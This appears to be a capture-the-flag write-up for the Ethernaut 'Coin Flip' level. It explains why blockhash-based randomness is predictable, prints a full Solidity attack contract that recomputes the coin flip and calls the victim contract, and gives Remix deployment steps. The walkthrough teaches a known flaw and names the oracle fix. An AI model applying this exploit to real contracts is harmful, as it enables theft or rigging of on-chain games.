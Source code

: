 # Coin Flip Challenge - Level 3

```yml
This smart contract has a vulnerability, it's use of the public source of randomness makes it vulnerable because:
```
- the ethereum blockchain is fully transparent and everything is public and can be viewed,

```Solidity
/**  
* @notice Blockhash and block.number are globally accessible variables available to everyone, 
* this is the source of randomness and can be exploited in the attack to calculate the correct side of the coin flip.
* The best practice in this case would be to introduce a source of randomness into a contract with a 
* decentralized oracle to compute random numbers, because there is no native way to generate random numbers in 
* Solidity and everything is publicly visible in the contract.
*/
/// @notice The attack contract can use the same process as the victim contract to find the value for the flip.
function flip(bool _guess) public returns (bool) {
  uint256 blockValue = uint256(blockhash(block.number.sub(1))); 
  uint256 coinFlip = blockValue.div(FACTOR); 
  bool side = coinFlip == 1 ? true : false;
```
  - after the attack contract finds the value for the flip it is assigned to the call to the flip function of the victim contract,
    - the player calls this flip function 10 times in a row to win.

```Solidity
victimContract.flip(side);
```

## 💥 The attack contract in detail:

```yml
The attack contract starts with importing the victim contract:
```
- this will be used in the attack contract's constructor,

```Solidity
// SPDX-License-Identifier: MIT
// fixed pragma
pragma solidity 0.5.0; 

import "./CoinFlip.sol";
// outdated import for SafeMath, pragma 0.8.0 has SafeMath included in version
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v2.5.0/contracts/math/SafeMath.sol";

/// @title attack contract, calculates correct side 10 times in a row
/// @author Web3 Blockchain Developer 
contract CoinFlipAttack {
    /** 
    * @notice Using for directive, using imported SafeMath functions from openzeppelin,
    * for unit256 to prevent overflow and underflow attacks. 
    */
    using SafeMath for uint256;
```
- the public state variable victimContract references the victim contract as CoinFlip and will be assigned by the player when the attack contract is deployed using the constructor,
- the attack contract also uses the state variable FACTOR from the victim contract,
- the constructor receives the victim contract address from the player and references the victim contract with CoinFlip(_victimContractAddr), this address is assigned as the public state victimContract

```Solidity
/// @notice public state variable assigned in constructor
    CoinFlip public victimContract; 
    
    // state variable assigned in function flip()
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    /** 
    * @notice victim address belonging to CoinFlip assigned as public state variable victimContract 
    * during deployment of attack contract 
    */
    constructor(address _victimContractAddr) public {
        victimContract = CoinFlip(_victimContractAddr);
    }
```
- finally the attack begins,
- after the attack contract finds the value for the flip it is assigned to the call to the flip function of the victim contract,
    - the player calls this flip function 10 times in a row to win.

```Solidity

/**  
* @notice Blockhash and block.number are globally accessible variables available to everyone, 
* this is the source of randomness and can be exploited in the attack to calculate the correct side of the coin flip.
* The best practice in this case would be to introduce a source of randomness into a contract with a 
* decentralized oracle to compute random numbers, because there is no native way to generate random numbers in 
* Solidity and everything is publicly visible in the contract.
*/
/// @notice The attack contract can use the same process as the victim contract to find the value for the flip.
function flip() public returns(bool) {
  uint256 blockValue = uint256(blockhash(block.number.sub(1)));
  
  uint256 coinFlip = blockValue.div(FACTOR); 
        
  bool side = coinFlip == 1 ? true : false;

  victimContract.flip(side);
    }
}

```
## 💥 The attack contract locked and loaded in REMIX IDE

```yml
Fire away at that flip button, ten times:
```
- lower left of the image, under the Deployed Contracts section, orange button labeled flip.

<p align="left" >
<img width="506" height="512" src="https://user-images.githubusercontent.com/104662990/199078205-0c19814b-c867-46bf-8b1e-9404585037af.png">
</P>



    
    
